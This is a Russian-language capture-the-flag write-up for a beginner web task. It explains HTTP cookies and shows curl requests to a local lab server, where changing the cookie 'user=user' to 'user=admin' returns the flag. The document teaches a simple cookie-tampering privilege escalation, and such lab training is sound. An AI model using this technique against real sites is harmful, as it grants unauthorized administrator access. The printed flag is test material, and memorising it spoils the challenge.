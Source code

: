 ## Таск: Стань админом
_To become an admin one should feed another with cookies. `http://<HOST>:33000`_

## Writeup:

Даже без знания английского можно прочитать, что таск связан с cookie-файлами. Cookie файлы это те файлы, который хранятся на компьютере клиента и передаются с каждым http запросом. Сервер может попросить клиента поменять эти файлы. Куки нужны в том числе и для авторизации и поддержания сессии клиента.  

Смотрим какие куки возвращает сервер при запросе /index:

```
* Rebuilt URL to: localhost:33000/
*   Trying ::1...
* TCP_NODELAY set
* Connected to localhost (::1) port 33000 (#0)
> GET / HTTP/1.1
> Host: localhost:33000
> User-Agent: curl/7.55.1
> Accept: */*
>
< HTTP/1.1 200 OK
< Date: Mon, 04 Nov 2019 14:03:16 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.2.24
< Set-Cookie: user=user
< Vary: Accept-Encoding
< Content-Length: 132
< Content-Type: text/html; charset=UTF-8
<
<!doctype html>
<html>
<head>
    <title>Security system</title>
</head>
<body>
    <h1>Access Denied </h1>
</body>
</html>
* Connection #0 to host localhost left intact
```

Видим, что сервер ставит куку user в user: ```Set-Cookie: user=user```. Название таска и это наводит на мысль, что нужно поставить user в admin. Каждый жаждит стать админом, потому что обычно у него есть полный доступ.
Пробуем и получаем флаг.

```
~ > curl -v localhost:33000 --cookie user=admin
* Rebuilt URL to: localhost:33000/
*   Trying ::1...
* TCP_NODELAY set
* Connected to localhost (::1) port 33000 (#0)
> GET / HTTP/1.1
> Host: localhost:33000
> User-Agent: curl/7.55.1
> Accept: */*
> Cookie: user=admin
>
< HTTP/1.1 200 OK
< Date: Mon, 04 Nov 2019 13:59:28 GMT
< Server: Apache/2.4.38 (Debian)
< X-Powered-By: PHP/7.2.24
< Vary: Accept-Encoding
< Content-Length: 178
< Content-Type: text/html; charset=UTF-8
< 
<!doctype html>
<html>
<head>
    <title>Security system</title>
</head>
<body>
    <h1>Access Granted. The flag is flag{repl4cing_co0kies_is_3asy}</h1>
</body>
</html>```

